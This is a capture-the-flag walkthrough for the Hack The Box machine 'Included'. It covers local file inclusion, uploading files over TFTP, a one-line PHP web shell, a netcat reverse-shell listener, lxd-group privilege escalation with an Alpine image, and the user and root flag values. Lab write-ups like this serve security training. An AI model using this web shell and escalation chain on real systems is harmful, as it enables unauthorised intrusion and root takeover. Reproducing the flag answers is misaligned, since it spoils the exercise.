



# Included
Included is a very easy linux machine on Hack The Box Starting Point Tier 1 that focuses on exploiting local file inclusion vulnerabilities, TFTP, and linux containers.

## Task 1
**What service is running on the target machine over UDP?**
> tftp


## Task 2
**What class of vulnerability is the webpage that is hosted on port 80 vulnerable to?**
> Local File Inclusion

We visit the target website and see that the webpage has a `file` query parameter. We confirm that target website has a local file inclusion vulnerability by loading the `/etc/passwd/` file:


## Task 3
**What is the default system folder that TFTP uses to store files?**
> /var/lib/tftpboot/

We confirm that the target machine is storing TFTP files in `/var/lib/tftpboot/` by checking the `TFTP_DIRECTORY` variable of the `/etc/default/tftpd-hpa` file:


## Task 4
**Which interesting file is located in the web server folder and can be used for Lateral Movement?**
> .htpasswd

We want to view all the files in the web server folder `/var/www/html`. We make a `shell.php` file that allows us to execute system commands:

```php
# shell.php
<?php system($_GET["cmd"]); ?>
```

Next we upload `shell.php` to the TFTP Server:



Next we visit use `curl` to execute the command `ls -a /var/www/html` on the target machine:


We notice there is an `.htpasswd` file. We use `curl` to execute the command `cat /var/www/html/.htpasswd` on the target machine to get Apache HTTP Server user credentials:


## Task 5
**What is the group that user Mike is a part of and can be exploited for Privilege Escalation?**
> lxd

We make reverse shell as the Mike user. We start a netcat listener on port `4242` of our own machine:

```bash
nc -nlvp 4242
```

In another terminal, we make a php reverse_shell and upload it to the TFTP Server. We start the shell using the `curl` command:


Now we have a reverse shell as the `www-user` in our first terminal. We make the shell fully interactive and then login as the `mike` user using the credentials from the `.htpasswd` file:


We use the `id` command and find that mike is in the `lxd` group:


## Task 6
**When using an image to exploit a system via containers, we look for a very small distribution. Our favorite for this task is named after mountains. What is that distribution name?**
> alpine

We download and build the exploit on our own machine: 

```bash
git clone  https://github.com/saghul/lxd-alpine-builder.git
cd lxd-alpine-builder
sudo ./build-alpine
```

Then we upload the `alpine-v3.13-x86_64-20210218_0139.tar.gz` file to the TFTP Server. Now in our reverse shell, we import the image we uploaded to the server as `myimage`:


## Task 7
**What flag do we set to the container so that it has root privileges on the host system?**
> security.privileged=true

Next we create and start a container `mycontainer` from our uploaded image `myimage`. We add the `security.privileged=true` flag to give us root privileges in our container:


Now we have a root shell:


## Task 8
**If the root filesystem is mounted at /mnt in the container, where can the root flag be found on the container after the host system is mounted?**
> /mnt/root/



## User Flag
> a56ef91d70cfbf2cdb8f454c006935a1



## Root Flag
> c693d9c7499d9f572ee375d4c14c7bcf

